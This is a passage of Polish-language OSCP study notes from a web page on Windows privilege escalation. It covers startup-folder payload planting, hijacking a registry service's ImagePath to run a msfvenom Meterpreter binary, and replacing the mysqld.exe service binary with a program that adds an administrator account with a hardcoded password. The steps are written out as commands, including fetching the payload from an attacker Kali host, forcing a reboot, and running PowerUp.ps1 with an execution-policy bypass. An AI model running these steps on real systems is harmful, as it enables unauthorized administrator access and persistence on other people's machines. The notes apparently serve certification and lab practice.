 Execute and get shell)<br>#mozesz tez przez RDP po prostu kliknac progra aby uruchomic<br><strong>###Startup Apps###</strong><br>#C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp  (lista ; po podmianie pamietaj ze system musi sie zrestartowac  ;  moze masz prawa do folderu wtedy chyba cokolwiek met.exe wrzucisz tutaj)<br>#icacls „C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp”  (sprawdz czy masz full access do katalogu)<br><strong>###Insecure registry service###</strong><br>#winpeas da wynik dla jakies aplikacji: insecure registry service i poda nazwe tego serwis<br>#PS: Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl  (zobacz czy masz Allow Full Control)<br>#tworzy w msfvenon met.exe i wrzucamy do np. C:\Temp<br>#reg add „HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\<br>services\regsvc” /t REG_EXPAND_SZ /v ImagePath /d „C:\<br>Temp\met.exe” /f<br>#&gt; sc start regsvc<br><strong><mark style="background-color:#f8b5ff" class="has-inline-color">###oscp23###</mark></strong><br>#PS: Get-ItemProperty „HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*” | select displayname (aplikacje 32-bit)<br>#PS: Get-ItemProperty „HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*” | select displayname  (aplikacje 64 bit)<br>#Szukaj programów w C:\Program Files i folderach Donwloads<br>#PS: Get-Process (aktualnie trwające procesy ; szukaj: mysql, httpd, xampp) #&gt; Get-Process NAZWA_PROCESU -FileVersionInfo (wyświetli scieke do pliku)<br>#PS: $A = Get-Process (nowa linia) $A | Get-Process | Format-Table -View priority  (to podzieli procesy na priorytety, latwiej znalezc nietypowe)</p>



<h4 class="wp-block-heading"><span class="ez-toc-section" id="Windows_Service_by_oscp23" ez-toc-data-id="#Windows_Service_by_oscp23"></span>Windows Service by oscp23<span class="ez-toc-section-end"></span></h4>



<p>#zarządzanie przez Service Control Manager: Services snap-in, PowerShell, or the sc.exe<br>#– Service Binary Hijacking tł. przejecie usługi binarnej<br>#listowanie service: services.msc (GUI)<br>#PS: <mark style="background-color:#beffaf" class="has-inline-color">Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running’}</mark>   (lista ze statusem i ściezka ; ps. moze nie dzialac przez rev-shell ;  szukaj: apache, mysql  ; najwazniejsze te ze sciazka inna niz: C:\Windows\System32)<br>#&gt; sprawdzamy teraz nasze prawo do nadpisania binarki:<mark style="background-color:#b9ffa9" class="has-inline-color"> icacls „C:\xampp\apache\bin\httpd.exe”</mark>  (F Full access ; M Modify access ; RX Read and execute access ; R Read-only access ; W Write-only access)<br>#&gt; tworzymy plik adduser.c wg <a href="https://3haker.pl/kod-c-ktory-utworzy-nam-usera/">tego</a> kodu, ktory doda naszego user do administratora (lukasz / Password123!)<br>#&gt; przeyłanie exe z kaliego: iwr -uri http://$KALI:9090/adduser.exe -Outfile adduser.exe<br>#&gt; oryginalna binarke kopiujemy do siebie: move C:\xampp\mysql\bin\mysqld.exe mysqld.exe<br>#&gt; podmieniamy zlosliwa binarke: move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe<br>#&gt; restart usługi przez: net stop mysql (ale prawdopodobnie nie bedziemy mieli dostepu)<br>#&gt; sprawdzenie jak usluga sie wlacza: Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql’}  (Auto oznacza ze przy restarcie)<br>#&gt; sprawdzamy czy nasz user ma prawo do restartu (czy mamy SeShutDownPrivilege): whoami /priv (ważne czy ta pozycja jest w ogole na liscie, Disable nie jest wazne)  #&gt; shutdown /r /t 0<br>#&gt; po restarcie sprawdzamy czy jest nowy user; Get-LocalGroupMember administrators<br><strong>###PowerUp.ps1###</strong><br>#powershell -ep bypass #&gt; . .\PowerUp.ps1 (lub jak nie dziala to: Import-Module .\PowerUp.ps1) #&gt; Get-ModifiableServiceFile (pokaze binarki ktore mozemy modyfikowac, analogicznie do w/w recznych prac)<br>#&gt; można probowac atak na dany service: Install-ServiceBinary -Name 'mysql’ (bedzie error bo PowerUp nie radzi sobie jak trzeba uzyc argumentu do binarki)</p>



<h4 class="wp-block-heading"><span class="ez-toc-section" id="Uprawnienia" ez-toc-data-id="#Uprawnienia"></span>Uprawnienia<span class="ez-toc-section-end"></span></h4>

